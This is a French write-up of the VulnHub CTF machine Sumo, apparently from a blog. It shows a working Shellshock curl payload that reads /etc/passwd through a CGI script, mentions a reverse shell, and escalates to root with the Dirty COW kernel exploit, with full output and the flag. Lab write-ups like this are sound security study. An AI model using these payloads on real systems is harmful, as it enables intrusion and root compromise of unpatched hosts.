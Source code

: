 ```yaml
---
title: Solution du CTF Sumo de VulnHub
tags: [CTF, VulnHub]
---
```


One way or another
------------------

Voici un writeup pour [Sumo](https://www.vulnhub.com/entry/sumo-1,480/), petit CTF créé par *SunCSR Team*.  

```
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 06:cb:9e:a3:af:f0:10:48:c4:17:93:4a:2c:45:d9:48 (DSA)
|   2048 b7:c5:42:7b:ba:ae:9b:9b:71:90:e7:47:b4:a4:de:5a (RSA)
|_  256 fa:81:cd:00:2d:52:66:0b:70:fc:b8:40:fa:db:18:30 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Ubuntu)
```

On a un serveur web et un serveur SSH. Comme vous le verrez on pourra même se passer du second.  

Je lance Nuclei sur le serveur web qui me trouve direct une vulnérabilité :  

```
[2021-12-27 11:56:38] [CVE-2014-6271] [http] [critical] http://192.168.56.15/cgi-bin/test
```

Il s'agit de la faille ShellShock. Wapiti est en mesure de confirmer la vulnérabilité :  

```
$ ./bin/wapiti -u http://192.168.56.15/cgi-bin/test --scope url -m shellshock
ujson module not found, using json
msgpack not installed, MsgPackSerializer unavailable

     __      __               .__  __  .__________
    /  \    /  \_____  ______ |__|/  |_|__\_____  \
    \   \/\/   /\__  \ \____ \|  \   __\  | _(__  <
     \        /  / __ \|  |_> >  ||  | |  |/       \
      \__/\  /  (____  /   __/|__||__| |__/______  /
           \/        \/|__|                      \/
Wapiti 3.0.9 (wapiti.sourceforge.io)
[*] Enregistrement de l'état du scan, veuillez patienter...
[!] Unable to import module ssl

[*] Lancement du module shellshock
L'URL http://192.168.56.15/cgi-bin/test semble vulnérable à l'attaque Shellshock !
```

I'm gonna find ya
-----------------

On peut exploiter la vulnérabilité directement avec cURL :  

```
$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://192.168.56.15/cgi-bin/test

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:104::/var/run/dbus:/bin/false
sumo:x:1000:1000:sumo,,,:/home/sumo:/bin/bash
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
```

J'ai profite donc pour obtenir un shell via *ReverseSSH*.  

L'utilisateur *sumo* est intéressant car fait partie de groupes privilégiés :  

```
uid=1000(sumo) gid=1000(sumo) groups=1000(sumo),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),109(sambashare)
```

Mais il ne dispose ni de fichiers ni de processus utilisables pour une escalade de privilèges...  

I'm gonna getcha getcha getcha getcha
-------------------------------------

La machine est vulnérable à différents exploits Kernel dont [Dirty COW](https://dirtycow.ninja/).  

L'exploit signé Firefart donne généralement des bons résultats donc je ne suis pas allé chercher ailleurs.  

```
www-data@ubuntu:/tmp$ ./dirty holyc0w
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: holyc0w
Complete line:
firefart:fim4kAXNC8Hg6:0:0:pwned:/root:/bin/bash

mmap: 7f3cf6da9000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'holyc0w'.

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'holyc0w'.

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
www-data@ubuntu:/tmp$ grep firefart /etc/passwd
Binary file /etc/passwd matches
www-data@ubuntu:/tmp$ su firefart
Password: 
firefart@ubuntu:/tmp# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@ubuntu:/tmp# cd /root
firefart@ubuntu:~# ls
root.txt
firefart@ubuntu:~# cat root.txt
{Sum0-SunCSR-2020_r001}
```



*Published December 27 2021 at 13:38*
